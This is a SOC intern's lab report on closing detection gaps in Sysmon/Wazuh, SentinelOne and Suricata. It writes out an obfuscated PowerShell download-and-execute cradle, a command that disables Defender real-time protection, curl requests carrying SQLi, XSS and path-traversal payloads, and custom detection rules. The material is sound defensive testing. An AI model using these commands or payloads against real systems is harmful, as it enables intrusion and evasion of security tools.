# Three Layers, Three Detection Gaps

> **Scope note.** Week 3 of a SOC internship, spanning three defensive layers:
> host-based detection (Sysmon/Wazuh), EDR (SentinelOne), and network intrusion
> detection (Suricata). The recurring theme is that in all three, the *default*
> configuration had a detection gap — a concrete illustration of the difference
> between "the tool is installed" and "the tool actually protects you."

---

## Scenario 1 — Suspicious PowerShell Activity in Sysmon Logs

**Goal:** Run an attacker-style PowerShell command with a hidden window and
obfuscation, and analyse whether Sysmon and the Wazuh SIEM detect the behaviour.

### 1.1 Environment Prep and the Config Gap Found

Before testing, the Sysmon config on the Windows agent was updated to the Olaf
Hartong (sysmon-modular) config. Verification surfaced an important finding:

> **Finding — Detection Gap (Olaf Hartong config).** The Olaf Hartong config only
> includes narrowly-scoped, predefined ATT&CK-technique patterns for Process Create
> (Event ID 1) — e.g. `ParentImage=sethc.exe/utilman.exe` [T1546.008],
> `OriginalFileName=bitsadmin.exe` [T1197]. An ordinary `powershell.exe` call
> doesn't match this narrow include list, so Sysmon Event ID 1 was never produced.
> The config is designed to catch specific known LOLBin techniques, not generic
> PowerShell execution — a natural side effect of the narrow-include (whitelist)
> approach.

To close the gap, the Sysmon config was switched to the SwiftOnSecurity
(broad-exclude) approach, which logs *all* Process Create events by default and only
excludes known noisy/benign processes.

### 1.2 Test Command and Execution

With the SwiftOnSecurity config active, the following obfuscated PowerShell command
was run on the Windows agent:

```powershell
powershell.exe -NoP -NonI -W Hidden -Command "$a='Sys';$b='tem.Net.WebClient'; IEX (New-Object ($a+$b)).DownloadString('http://127.0.0.1:9999/test.ps1')"
```

**Technique features:** `-W Hidden` (hidden window), simple obfuscation via string
concatenation, `IEX` + `DownloadString` (the classic "download cradle" pattern).


*The command executes (the connection fails because no server listens on :9999 — irrelevant to detection).*

### 1.3 Local Sysmon Log Verification

```powershell
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -MaxEvents 50 | Where-Object {$_.Id -eq 1} | Format-List TimeCreated, Message
```

> **Result.** A Process Create (Event ID 1) event was successfully produced. The
> CommandLine field shows the `-W Hidden` and `IEX (New-Object (...)).DownloadString(...)`
> pattern exactly — confirming the SwiftOnSecurity config change fixed the problem.


*Event ID 1 now captured, with CommandLine, SHA256, and ProcessGuid.*

### 1.4 Wazuh SIEM Detection

Searching Wazuh Discover by the relevant ProcessGuid, the command itself (Event ID 1)
produced *no* rule-level alert (level 0, ordinary PowerShell execution). But a side
effect of the command — the temporary script file PowerShell drops in Temp during its
ExecutionPolicy check (Event ID 11 / FileCreate) — triggered a high-severity alert:

| Field | Value |
| :--- | :--- |
| Rule ID | 92213 |
| Rule Description | Executable file dropped in folder commonly used by malware |
| Rule Level | 15 (Critical) |
| Event ID | 11 (FileCreate) |
| MITRE ATT&CK | T1105 — Ingress Tool Transfer (Command and Control) |
| Originating Process | `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe` |
| Target File | `C:\Users\Administrator\AppData\Local\Temp\__PSScriptPolicyTest_*.ps1` |
| Verdict | True Positive |



*The alert fires on the side-effect file drop (Event ID 11), mapped to T1105.*

### 1.5 Analysis and Conclusion

- Wazuh did not turn the PowerShell execution (Event ID 1) directly into an alarm;
  instead it raised a high-severity alert on its side effect (Event ID 11) mapped to
  T1105 — a detection where part of the behaviour chain is caught *indirectly*.
- This scenario shows the importance of looking at the behaviour chain (process →
  file creation → network request), not a single signal.
- **Classification: True Positive** (rule level 15, confirmed by MITRE T1105).

---

## Scenario 2 — SentinelOne Threat Triage and Response

**Goal:** Run a threat's triage process in the SentinelOne EDR console and apply the
appropriate response action, with justification.

### 2.1 Environment Setup

- SentinelOne Agent (v26.1.2.177, 64-bit) installed on the Windows agent VM and
  connected to the tenant with a site token.
- Agent status verified: Console connectivity = Online, Network status = Connected.
- The `SentinelCtl status` output showed "Mitigation policy: none" — the agent can
  *detect* threats but takes no automatic action (monitor-only mode).


*Endpoint Online/Connected, policy in Detect (monitor-only) mode.*

### 2.2 Test Case — The EICAR Standard Test File

EICAR is a harmless, industry-agreed standard file recognised as a "test virus" by all
AV/EDR vendors. It was used to test detection/response without real malware.

```powershell
Invoke-WebRequest -Uri "https://secure.eicar.org/eicar.com.txt" -OutFile "C:\Users\Administrator\Downloads\eicar_test2.txt"
```

**Note:** on the first attempt (`eicar_test.txt`), Windows Defender instantly deleted
the file. Defender real-time protection (`Set-MpPreference -DisableRealtimeMonitoring $true`)
was temporarily disabled so detection would happen at the SentinelOne layer.


*With Defender off, the EICAR file stays on disk (68 bytes).*

### 2.3 Triage — SentinelOne Threat Inventory

| Field | Value |
| :--- | :--- |
| Threat File Name | `eicar_test2.txt` |
| Path | `\Device\HarddiskVolume2\Users\Administrator\Downloads\eicar_test2.txt` |
| Detection Type | Static (signature-based) |
| Classification | Virus |
| AI Confidence Level | Malicious |
| Originating Process | `powershell.exe` (interactive session) |
| Threat Status (initial) | NOT MITIGATED — no automatic action due to "Mitigation policy: none" |


*Both EICAR files show as Malicious, initially Unresolved.*

### 2.4 Storyline / Deep Visibility Analysis

Related events were examined in the threat's Storyline view via a Deep Visibility query:

| Field | Value |
| :--- | :--- |
| Event Type | Pre-Execution Detection (static analysis, before execution) |
| Source Process | `powershell.exe` |
| Source Process User | `WIN-U4KI1MI7UR7\Administrator` |
| StoryLine ID | `8A592CF6FD887F1C` |
| Behavioral Indicators | None — detection was static/signature-based, so no behavioural indicators were produced |


*Deep Visibility: pre-execution (static) detection, no behavioural chain.*

### 2.5 Response Action and Justification

> **Action applied: Mitigation → Quarantine.**
> **Rationale:** The threat was statically classified "Malicious/Virus"; it was a file
> sitting on disk, not an actively running process. **Kill Process** was unnecessary
> because no associated process was actively running. A heavier action like **Network
> Isolation** was disproportionate because the threat was a single isolated test file
> with no sign of spread/lateral movement. **Quarantine** was the proportionate
> response — it removes the risk without disrupting business continuity.

The action applied successfully; Threat Status moved from "NOT MITIGATED" to mitigated
(green).


*Quarantine applied; status turns MITIGATED.*

### 2.6 Additional Observation — Overlapping Defence Layers

On the first EICAR attempt (`eicar_test.txt`), Windows Defender detected and deleted the
file *before* SentinelOne. As a result, the Quarantine attempt for that file via
SentinelOne failed with a "file not found" error (Mitigation Actions: KILLED ✓,
QUARANTINE 0/1).

> **Assessment.** This is an example of how running multiple EDR/AV solutions (Windows
> Defender + SentinelOne) simultaneously in the same environment can cause conflicts
> between actions. In a real SOC, it's advisable to clarify which security tool holds
> primary response authority (a tool-coexistence policy).

---

## Scenario 3 — Web Attack Detection with Suricata (SQLi / XSS / Path Traversal)

**Goal:** Detect SQL Injection, XSS, and Path Traversal attempts against the Apache web
server with the Suricata NIDS, and map them to OWASP Top 10.

### 3.1 Environment and Initial Test

- Suricata (v7.0.3, enp1s0 interface) and Apache (port 80) had been active on
  linux-agent-vm since week 2.
- Test requests were sent from a separate machine (the host) via `curl` to the
  linux-agent-vm IP so Suricata could see the network traffic.

```bash
curl "http://192.168.122.19/index.html?id=1%27%20OR%20%271%27=%271"   # SQLi
curl "http://192.168.122.19/index.html?q=<script>alert(1)</script>"    # XSS
curl "http://192.168.122.19/../../../../etc/passwd"                     # Path Traversal
```

> **Apache access-log verification.** All three requests landed in Apache's access.log
> (with 200/404 status codes). The Path Traversal request was normalised client-side, so
> it reached the server as a plain `/etc/passwd` (404 Not Found).


*The three attack requests recorded in Apache's access.log.*

### 3.2 The Config Gap Found — ET Open Ruleset

> **Finding — Detection Gap (ET Open ruleset).** On the first test, `suricata-update` had
> no sources enabled ("No enabled sources") — the ET Open ruleset wasn't loaded, only
> Suricata's minimal defaults. Even after enabling `et/open`
> (`suricata-update enable-source et/open`) and updating 50,000+ rules, the SQLi/XSS
> tests produced no alert. **Root cause:** the web-application-attack category rules in
> ET Open are not generic/pattern-based but product-specific CVE signatures (e.g. "Nagios
> XI SQL Injection", "Joomla Component SQLi", "PHP Melody v3.0"). These rules depend on
> specific URI paths (e.g. `/admin/helpedit.php`, `.php?vid=`). The generic
> `/index.html?id=...` request in the test environment matched no signature because it
> doesn't belong to any known vulnerable product.

This demonstrates a fundamental limitation of signature-based NIDS: generic attacks
against unknown or custom applications are only detected if a signature was written to
target that pattern specifically.

### 3.3 The Fix — Custom Suricata Rules

To close the gap, three custom rules were written into `local.rules` and included in the
`rule-files` list in `suricata.yaml`:

```
alert http any any -> any any (msg:"CUSTOM SQL Injection Attempt Detected"; http.uri; content:"UNION"; nocase; content:"SELECT"; nocase; distance:0; classtype:web-application-attack; sid:9000001; rev:1;)
alert http any any -> any any (msg:"CUSTOM XSS Attempt Detected"; http.uri; content:"<script>"; nocase; classtype:web-application-attack; sid:9000002; rev:1;)
alert http any any -> any any (msg:"CUSTOM Path Traversal Attempt Detected"; http.uri; content:"etc/passwd"; nocase; classtype:web-application-attack; sid:9000003; rev:1;)
```

On Suricata restart this was confirmed with "52028 rules successfully loaded, 0 rules
failed".

### 3.4 Detection Results

Re-sending the three attack requests, all three custom rules triggered successfully:

| Attack | Signature ID / message |
| :--- | :--- |
| SQLi | 9000001 — CUSTOM SQL Injection Attempt Detected |
| XSS | 9000002 — CUSTOM XSS Attempt Detected |
| Path Traversal | 9000003 — CUSTOM Path Traversal Attempt Detected |
| Category | Web Application Attack (all three) |
| Source IP | 192.168.122.1 (test client) |
| Destination | 192.168.122.19:80 (Apache / linux-agent-vm) |

```bash
sudo cat /var/log/suricata/eve.json | jq 'select(.event_type=="alert" and .alert.signature_id>=9000001 and .alert.signature_id<=9000003)'
```




*All three custom rules fire; the eve.json records the matching URI for each.*

### 3.5 Wazuh SIEM Verification

A Wazuh Discover query (`agent.name:"linux-agent" AND rule.groups:"suricata"`) confirmed
all three alerts reached the SIEM:

> **Result.**
> "Suricata: Alert - CUSTOM SQL Injection Attempt Detected" (rule.level: 3)
> "Suricata: Alert - CUSTOM XSS Attempt Detected" (rule.level: 3)
> "Suricata: Alert - CUSTOM Path Traversal Attempt Detected" (rule.level: 3)


*End-to-end: the three Suricata alerts arrive in Wazuh.*

### 3.6 OWASP Top 10 Mapping

| Attack | OWASP | MITRE ATT&CK |
| :--- | :--- | :--- |
| SQL Injection | A03:2021 — Injection | T1190 — Exploit Public-Facing Application |
| XSS (Cross-Site Scripting) | A03:2021 — Injection | T1190 |
| Path Traversal | A01:2021 — Broken Access Control | T1190 |

### 3.7 Analysis and Conclusion

- Suricata ran healthily as a service and saw the traffic correctly; the real gap was in
  ruleset coverage (product-specific signatures, no generic pattern coverage).
- Writing custom rules is standard practice for SOC/detection-engineering teams in
  custom/generic application scenarios that packaged rulesets don't cover.
- **Classification:** all three attacks were detected as True Positive with the custom
  rules and delivered end-to-end to the Wazuh SIEM.

---

## Management Summary

This week, three separate attack scenarios were simulated, detected, and analysed across
the Endpoint Detection & Response (SentinelOne), host-based detection (Sysmon/Wazuh), and
Network Intrusion Detection (Suricata) layers.

### General Findings

- In all three scenarios, the environment's *default* configuration had a detection gap
  that was identified and closed — concretely demonstrating the difference between "the
  tool is installed" and "the tool provides effective protection."
- **Sysmon** (Olaf Hartong config) wasn't logging generic PowerShell execution due to
  narrow include filters; fixed by switching to the SwiftOnSecurity config.
- **SentinelOne** agent ran in monitor-only mode (mitigation policy: none); threats were
  detected but no automatic action was taken, closed via manual triage and Quarantine.
- **Suricata** had the ET Open ruleset disabled entirely; even after enabling it, generic
  web attacks weren't caught due to the product-specific signature structure, fixed with
  custom rules.

### Risk Assessment

| Scenario | Risk |
| :--- | :--- |
| 1 (Endpoint/Host) | Medium — the behaviour chain was caught indirectly (T1105), but the primary execution signal (Event ID 1) didn't rise to alert level. |
| 2 (EDR) | Low-Medium — detection works, automatic response policy disabled; manual response time (MTTR) could pose operational risk. |
| 3 (Network/Web) | High (before fix) — generic attacks against a production-like web app were completely invisible. |

### Recommendations

- Sysmon configs (especially narrow-include types) should be tested against basic
  LOLBin/execution scenarios before being put into production.
- SentinelOne's mitigation policy should be configured to the environment's risk
  tolerance (e.g. automatic Kill/Quarantine).
- Suricata ruleset coverage should be kept current (via `suricata-update`) and custom
  rules written for enterprise applications (especially in-house/custom web apps).
- These three findings confirm the importance of defense in depth: where a single tool
  failed, the other layers (SIEM correlation, manual triage, custom detection) provided
  compensating controls.
